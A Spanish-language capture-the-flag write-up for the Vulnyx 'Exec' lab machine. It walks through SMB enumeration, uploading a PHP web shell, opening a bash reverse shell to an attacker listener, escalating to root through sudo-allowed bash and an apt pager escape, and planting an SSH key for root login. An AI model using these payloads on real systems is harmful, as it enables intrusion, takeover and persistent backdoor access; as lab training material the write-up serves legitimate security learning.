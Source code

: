 ```yaml
---
title: Vulnyx - Exec
author: estx
date: 2024-04-25 17:51:00 +0800
categories: [Writeup, Vulnyx, Low]
tags: ['Linux', 'SMB', 'File Upload', 'binary abusing']
math: true
mermaid: true
image:
  path: /assets/images/Vulnyx/Low/Exec/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Exec Machine Logo
---
```


Máquina Linux de nivel **Low** de Vulnyx.

Técnicas usadas: **File Upload, Binary Abusing**

### Fase de Reconocimiento 🧣

Como primer punto, identificamos la dirección IP de la **`Máquina Vulnyx`**

```bash
root@kali> arp-scan -I eth0 --local --ignoredups

<SNIP>
192.168.100.63	08:00:27:c6:4f:1d	PCS Systemtechnik GmbH
```

> Con esto identificamos todos los dispositivos en nuestra red local.

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n 192.168.100.63 -oG puertos`**

  ![](/assets/images/Vulnyx/Low/Exec/01-ports.png)

b. Vemos la versiones de los servicios que se están ejecutando

* **`nmap -p22,80,139,445 -sCV <IP> -oN versiones`**

  ![](/assets/images/Vulnyx/Low/Exec/02-versions.png)


c. En el **puerto 80** no hay algo interesante (Solo la página por defecto), por lo que, investigamos todo sobre el servicio **SMB** (Puerto 445)

```bash
# Primero listamos los directorios disponibles
❯ smbclient -L \\192.168.100.63

Password for [WORKGROUP\root]: <ENTER>

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        server          Disk      Developer Directory
        IPC$            IPC       IPC Service (Samba 4.17.12-Debian)
        nobody          Disk      Home Directories


# Vemos que el directorio "server" puede ser accedido, por lo que, nos conectamos y listamos los recursos disponibles

❯ smbclient \\\\192.168.100.63\\server

Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 25 17:20:01 2024
  ..                                  D        0  Mon Apr 15 10:04:12 2024
  index.html                          N    10701  Mon Apr 15 10:04:31 2024
```

* Si nos decargamos el archivo **index.html** con el comando `get index.html` nos daremos cuenta que es el archivo por defecto del puerto 80. Intuimos entonces que probablemente los archivos de este directorio se ven reflejados en el servicio HTTP. Intentaremos subir un archivo `.php` para ejecutar comandos.

```bash
❯ cat secret.php

<?php
	system($_GET['cmd']);
?>
```

> La función `system` nos permite ejecutar comandos en el sistema. Con **`$_GET['cmd']`** lo que hacemos es indicar que el comando que se va a ejecutar lo indicaremos desde la **URL**. **Ej.** http://192.168.100.63/secret.php?cmd=<COMANDO>
{: .prompt-info }

* Por último, subimos el archivo **secret.php** al servicio SMB con **`put secret.php`**

d. Ahora con **cURL** podemos ejecutar comando en la máquina víctima

```bash
❯ curl -s -X GET "http://192.168.100.63/secret.php?cmd=hostname"
exec
```

* Ahora nos entablamos un reverse shell 👨‍💻

```bash
❯ cat index.html

#!/bin/bash

bash -i >& /dev/tcp/192.168.100.55/4444 0>&1
---------------------------------------------

❯ python -m http.server 80

---------------------------------------------

❯ nc -lvnp 4444
```

> Con esto lo que hacemos es servir el archivo `index.html`, para que al ser requerido por la máquina víctima se ejecute el código **.sh**

* Hacemos que la máquina víctima solicite el archivo

![](/assets/images/Vulnyx/Low/Exec/03-exploit.png)

![](/assets/images/Vulnyx/Low/Exec/04-reverse.png)



### Escalada de Privilegios 💹

1. Hacemos el tratamiento de la TTY para trabajar de manera más cómoda con la reverse shell

```bash
www-data@exec:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@exec:/var/www/html$ ^Z
[1]  + 25443 suspended  nc -lvnp 4444
❯ stty raw -echo;fg
[1]  + 25443 continued  nc -lvnp 4444
                                     reset xterm


www-data@exec:/var/www/html$ export TERM=xterm-256color
www-data@exec:/var/www/html$ source /etc/skel/.bashrc 
www-data@exec:/var/www/html$
```


2. Miramos los permisos a nivel de sudoers de este usuario

```bash
www-data@exec:/var/www/html$ sudo -l

User www-data may run the following commands on exec:
    (s3cur4) NOPASSWD: /usr/bin/bash
```

* Vemos que podemos ejecutar una **bash** como el usuario `s3cur4`

```bash
www-data@exec:/var/www/html$ sudo -u s3cur4 /usr/bin/bash
s3cur4@exec:/var/www/html$ whoami
s3cur4
```

3. Ahora vemos los permisos del usuario `s3cur4`

```bash
s3cur4@exec:/var/www/html$ sudo -l

User s3cur4 may run the following commands on exec:
    (root) NOPASSWD: /usr/bin/apt
```

* Vemos en [GTFOBins](https://gtfobins.github.io/gtfobins/apt/#shell) una forma de escalar privilegio ejecutando **apt**

```bash
s3cur4@exec:/var/www/html$ sudo -u root /usr/bin/apt changelog apt
Get:1 https://metadata.ftp-master.debian.org apt 2.6.1 Changelog [505 kB]
Fetched 505 kB in 2s (241 kB/s)
# Después de ejecutar el comando, se abrirá una pantalla en la cual debemos escribir !/bin/bash
root@exec:/var/www/html# 
```


### Extras 🌟

1. Podemos autenticarnos mediante **SSH** directamente a la máquina víctima:

* Primero, habilitamos el permiso para que **root** pueda autenticarse a través de SSH. Quitamos el **#** y colocamos un **yes**

```bash
root@exec:~# cat /etc/ssh/sshd_config

...
PermitRootLogin yes
...
```

* Ahora, generamos un par de claves RSA en nuestra máquina host

```bash
❯ ssh-keygen

# Asignamos el permiso 600 a la clave id_rsa privada
❯ chmod 600 id_rsa
```

* Copiamos el contenido de la clave id_rsa pública y lo ponemos en un archivo **authorized_keys** en el directorio /root/.ssh

```bash
root@exec:~/.ssh# echo -n 'ssh-ed25519 ... root@kali' > authorized_keys
```


* Finalmente, nos podemos autenticar directamente por ssh como el usuario **root**

```bash
❯ ssh root@192.168.100.63 -i id_rsa
root@exec:~#
```
